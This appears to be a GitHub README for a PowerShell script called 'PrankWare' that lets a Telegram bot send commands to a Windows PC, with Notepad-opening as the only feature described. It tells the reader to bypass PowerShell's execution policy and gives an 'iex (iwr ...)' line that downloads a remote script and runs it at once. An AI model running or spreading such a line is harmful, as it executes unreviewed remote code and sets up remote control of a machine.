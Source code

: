 <div align="center">
# Telegram-Controlled PowerShell Script
</div>

This PowerShell script lets you control your PC through a Telegram bot. It listens for the `/open_notepad` command and launches Notepad when you send it from your Telegram account.

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
## Powershell pipeline
```
iex (iwr "https://raw.githubusercontent.com/xtofuub/PrankWare/refs/heads/main/prankware.ps1")
